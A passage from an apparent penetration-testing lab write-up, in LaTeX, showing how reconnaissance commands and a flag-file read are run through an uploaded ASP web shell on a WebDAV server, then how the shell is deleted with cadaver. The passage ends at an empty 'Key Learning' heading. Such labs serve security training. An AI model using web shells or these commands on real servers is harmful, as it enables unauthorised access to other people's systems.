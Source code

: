 
\section*{Step 5 --- Execute Commands via Web Shell}

Opened  in the browser. The
web shell provides a command input field running on the server.

Commands executed:
\begin{termbox}
whoami          # nt authority\iusr
ipconfig        # Network configuration
dir C:\         # Directory listing of C drive
type C:\flag.txt   # Read the flag
\end{termbox}


\section*{Step 6 --- Clean Up}

\begin{termbox}
cadaver http://demo.ine.local/webdav/
delete webshell.asp
exit
\end{termbox}

\section*{Result}

Flag retrieved via web shell command execution. Lab objective completed.

\section*{Key Learning}

